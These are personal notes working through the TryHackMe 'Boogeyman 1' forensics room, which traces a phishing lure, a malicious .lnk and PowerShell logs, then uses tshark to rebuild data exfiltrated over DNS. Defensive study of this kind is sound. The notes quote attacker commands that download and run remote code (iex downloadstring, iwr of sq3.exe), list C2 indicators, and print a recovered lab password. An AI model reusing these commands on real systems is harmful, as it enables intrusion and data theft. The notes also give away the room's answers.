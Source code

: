 ##### This version was my own and was not enhanced by AI.

#### Personal Notes and tips: sq3.exe seems to be what the attacker used against the SQLite database. --important to remember for the future
---
# Boogeyman 1 Notes:

## Email Investigation
---
Opened up the eml file

Phish Email:
agriffin@bpakcaging.xyz

Victim's Email:
julianne.westcott@hotmail.com

Looking inside the zip without extracting:
unzip -l Invoice.zip

The .zip file is password protected

Found the password within the email data:
"invoice2023!"

Used the command:

unzip -P Invoice2023! Invoice.zip

was the correct password and inflated the file within;

"Invoice_20230103.lnk"

Using lnkparse on the .lnk file reveals a command line within it

From the lnkparse command:

"Command line arguments: -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA=="

Using CyberChef, I included 'From Base64' and 'Remove null bytes', the result?

iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')

unsure what the command is, or why its there, I continue the investigation
---------------------------------

## Endpoint Investigation
---------------------------------
Found a GitHub url within the powershell.json file within the Artefacts folder.

"hxxps[://]github[.]com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt[.]ps1"

Found another suspicious link:
"iwr hxxp[://]files[.]bpakcaging[.]xyz/sq3[.]exe -outfile sq3[.]exe;pwd"

Extracted (and defanged) Domains:
cdn[.]bpakcaging[.]xyz,files[.]bpakcaging[.]xyz

Found more:
C:\\Users\\j.westcott\\Documents\\protected_data.kdbx;pwd

Vital piece?
C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAd

Brainstorming with trial and error:
cat powershell.json | jq '{path}'
cat powershell.json | jq '{ContextInfo}'
cat powershell.json | jq '{ScriptBlockText}'

found something:

.\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\;pwd

Additional note: sq3.exe was used to view (and exfiltrate?) data in the SQLite database on the victim's computer.

used cat powershell.json | grep AppData, found plum.sqlite in the same similar path as ".\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\;pwd"

plum.sqlite

Complete Reconstructed Path:
C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite

the malicious file was using Microsoft Sticky Notes as the execution point?

the exfiltrated file was 'protected_data.kdbx'

cat powershell.json | jq '{ContextInfo, ScriptBlockText}'

The threat actor used .split to split the file into many pieces while encoding them all in hex for transmission to their C2

super helpful command: cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' | jq '{ScriptBlockText}' | sort | uniq -c

C2 IP: 167[.]71[.]211[.]113
C2 Domain: cdn.bpakcaging.xyz
C2 port: 8080

the Threat Actor abused the windows service 'nslookup' to transmission the data to their C2.
---
## Network Investigation
---

### Wireshark:
using the 'http contains "files.bpakcaging.xyz" we found that they were using python to host the site files site by checking Packet 42702's TCP Stream.

The attacker used HTTP POST requests for the outputs of the commands executed.

The attacker used DNS during the exfiltration activity.

The attacker used sq3.exe to find the password to the file 'protected_data.kdbx', the password was stored in the plum.sqlite file, the password being "%p9^3!lL^Mz47E2GaT^y".
---
### Tshark:

Now using Tshark to obtain whatever information the attacker stole from within the file.

Commands used:

```bash tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name -e dns.qry.type (filtering by.. dns query type?)```

```bash tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz"``` (see the data filtered via dns of the domain traffic of the website with '.' to get any and all subdomains in the .pcapng file)

```bash tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' ```(gives us only the field 1 data strings)

```bash tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" ``` (sorted "files" and "cdn" out of the command results) 

```bash tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'``` 

```bash tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" | uniq | tr -d '\\n' > output.txt``` (outputted info to a .txt file)

``bash >> ~/Desktop/answers.txt``` (append the info into a new file)

use cyberchef FROM HEX, save output as .kdbx extension
(do this in a VM or sandbox in case its malware, you never know when reconstructing files)

then use a program to view the .kdbx file and its contents for the last answer in Boogeyman 1 of TryHackMe
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
# ===FINISH CTF===

